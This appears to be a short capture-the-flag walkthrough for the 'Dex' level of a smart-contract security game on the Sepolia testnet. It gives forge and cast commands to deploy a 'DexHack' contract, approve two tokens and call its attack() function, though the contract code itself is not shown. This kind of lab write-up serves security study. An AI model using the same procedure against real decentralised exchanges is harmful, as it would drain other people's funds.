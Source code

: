 # Dex Solution

1) Deploy `DexHack`:

```
forge create DexHack --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --constructor-args `ìnstanceAddress`
```

2) Retrieve the `token1Address` and the `token2Address`:

```
cast call `ìnstanceAddress` "token1()" --rpc-url $SEPOLIA_RPC_URL
# truncate the first 24 zeros from `token1Address`
cast call `ìnstanceAddress` "token2()" --rpc-url $SEPOLIA_RPC_URL
# truncate the first 24 zeros from `token2Address`
```

3) Call `approve()`:

```
cast send `token1Address` "approve(address,uint256)" `dexHackAddress` 100 --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
cast send `token2Address` "approve(address,uint256)" `dexHackAddress` 100 --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

4) Call `attack()`:

```
cast send `dexHackAddress` "attack()" --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```
